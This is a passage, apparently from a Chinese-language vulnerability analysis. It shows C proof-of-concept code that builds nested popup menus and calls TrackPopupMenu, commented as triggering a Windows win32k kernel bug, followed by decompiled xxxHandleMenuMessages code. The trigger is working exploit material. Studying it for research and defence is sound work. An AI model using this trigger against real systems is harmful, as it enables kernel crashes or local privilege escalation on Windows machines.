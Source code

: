 ```
    goto exit;
}
 
memset(&Item1, 0, sizeof(Item1));
memset(&Item2, 0, sizeof(Item2));
 
Item1.cbSize = sizeof(Item1);
Item1.fMask = MIIM_STRING;
if (!InsertMenuItemA(hMenu1, 0, TRUE, &Item1))
{
    ShowError("InsertMenuItemA 1", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
hMenu2 = CreatePopupMenu();
if (!hMenu2)
{
    ShowError("CreatePopupMenu 2", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
Item2.fMask = MIIM_STRING | MIIM_SUBMENU;
Item2.dwTypeData = "";
Item2.cch = 1;
Item2.hSubMenu = hMenu1;
Item2.cbSize = sizeof(Item2);
 
if (!InsertMenuItemA(hMenu2, 0, TRUE, &Item2))
{
    ShowError("InsertMenuItemA 2", GetLastError());
    bRet = FALSE;
    goto exit;
}
 
// 触发漏洞
if (!TrackPopupMenu(hMenu2, 0, 0, 0, 0, hWnd, NULL))
{
    ShowError("TrackPopupMenu", GetLastError());
    bRet = FALSE;
    goto exit;
}
```  
  
  
不同的地方在于此时触发漏洞的位置是不同的，以下是部分代码：  
```
int __stdcall xxxHandleMenuMessages(int a1, int a2, WCHAR UnicodeString)
{
  uMsg = *(_DWORD *)(a1 + 4);
  if ( uMsg > 0x104 )
  {
    if ( uMsg > 0x202 )
    {
    }
    if ( uMsg == 0x202 )
      goto LABEL_80;
    v20 = uMsg - 0x105;         // uMsg - 0x105
    if ( v20 )
    {
      v21 = v20 - 1;          // uMsg - 0x1                
      if ( v21 )
      {
```